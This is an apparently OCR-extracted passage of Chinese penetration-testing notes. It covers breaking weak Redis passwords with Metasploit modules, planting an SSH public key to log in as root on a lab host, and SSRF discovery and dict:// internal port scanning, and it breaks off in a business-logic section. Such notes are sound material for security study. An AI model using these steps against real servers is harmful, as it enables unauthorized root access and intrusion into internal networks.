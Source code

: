  * 利用MSF 破解Redis弱口令导入ssh公钥链接
    ```
    auxiliary/scanner/redis/file_upload   #该exp功能为上传本地的文件到目标服务器。
    auxiliary/scanner/redis/redis_login   #该exp功能是对redis的密码进行枚举，亲测速度很快。
    auxiliary/scanner/redis/redis_server   #该exp功能是验证枚举或者其他手段得到的redis密码是否正确，该功能会执行一个info命令并返回执行结果。
    ```
    
  * 上传文件ssh密钥
    ```
    auxiliary/scanner/redis/file_upload  上传文件模块
    ssh-keygen -t rsa
    cd /root/.ssh/
    cp id_rsa.pub  authorized_keys
    vi authorized_keys
    在文件内容得前面和后面都加上\n\n\n
    为了能正常上传测试，在目标机器上创建/root/.ssh 目录
    mkdir /root/.ssh
    ssh -i id_rsa root@192.168.230.128
    ```

### 【SSRF漏洞】

* **SSRF**
  * SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）
  >一般是jsp网站会有

* **漏洞原理**
  * 用户在地址栏输入网址 --》 向目标网站发送请求 --》 目标网站接受请求并在服务器端验证请求是否合法，然后返回用户所需要的页面 --》用户接收页面并在浏览器中显示
  * 【此处的请求默认为www.xxx.com/a.php?image=（地址）】
  * 终极简析: SSRF漏洞就是通过篡改获取资源的请求发送给服务器，但是服务器并没有发现在这个请求是合法的，然后服务器以他的身份来访问其他服务器的资源。

* **漏洞挖掘**
  * 分享：通过URL地址分享网页内容
  * 转码服务
  * 在线翻译
  * 图片加载与下载：通过URL地址加载或下载图片
  * 图片、文章收藏功能
  * 未公开的api实现以及其他调用URL的功能
  * 从URL关键字中寻找

* **漏洞利用**
  * 可以通过伪协议dict对内网中的端口进行扫描


&nbsp;



## 业务逻辑漏洞

### 【商品数据逻辑漏洞】

* **漏洞挖掘**
  * 首先发送正常的数据包，了解整个数据交换流程，以及页面跳转
